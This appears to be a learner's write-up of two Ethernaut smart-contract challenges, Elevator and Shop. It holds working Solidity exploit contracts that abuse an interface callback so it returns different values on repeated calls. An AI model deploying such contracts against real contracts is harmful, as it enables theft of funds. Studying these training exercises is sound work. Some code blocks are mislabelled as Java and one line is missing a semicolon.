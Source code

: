 ## Day 3 View function errors

### Ethernaut #11 Elevator

The elevator has a goTo floor function that which is called twice.  The elevator is called from another contract which implements the Building interface.  

```Java
function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
```

The exploit here is that the ```isLastFloor()``` can alter the state of internal variables.  There is nothing preventing that from happening.  I have built a contract which does that.  When the second to last floor is reached the numFloors variable is modified inside the BuildingPH.  


```Java
contract BuildingPH is Building {
    uint private numFloors;
    Elevator immutable elevator;

    constructor (uint _numFloors, address _elevatorAdd) {
        require(_numFloors > 0, "the building needs to have some floors");
        elevator = Elevator(_elevatorAdd);
        numFloors = _numFloors + 1;
    }

    function isLastFloor(uint floorQ) external returns (bool) {
        if (floorQ == numFloors){
            return true;
        } else if (floorQ == numFloors - 1) {
            --numFloors;
            return false;
        } else {
            return false;
        }
    }

    // send elevator to the next floor
    function elevatorGoUp() public {
        uint elevatorLocation = elevator.floor();
        require(elevatorLocation < numFloors, "cannot go higher")
        elevator.goTo(elevatorLocation + 1);
    }
}
```


### Ethernaut #21 Shop

The goal of this exercise is the pay less for an item than a shop was expecting.  The shop has a buy() method which looks like this: 

```Java
    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
```

We also have an interface called Buyer which defines price() as a view function.  So the challenge is to make a view function that does not return the same value every time.  The key here is seeing that isSold gets set to true before .price() is called the second time.  We can use this logic to output a lower price the second time price() is called.  A solution is below.

```Java
contract BuyerPH is Buyer {
    Shop immutable shop;
    uint256 constant FAKE_PRICE = 100;
    uint256 constant REAL_PRICE = 1;

    constructor(address _shopAdd) {
        shop = Shop(_shopAdd);
    }

    function callBuy() external {
        shop.buy();
    }

    function price() external view  override returns (uint256) {
        if (shop.isSold()) {
            return REAL_PRICE;
        } else {
            return FAKE_PRICE;
        }
    }
}
```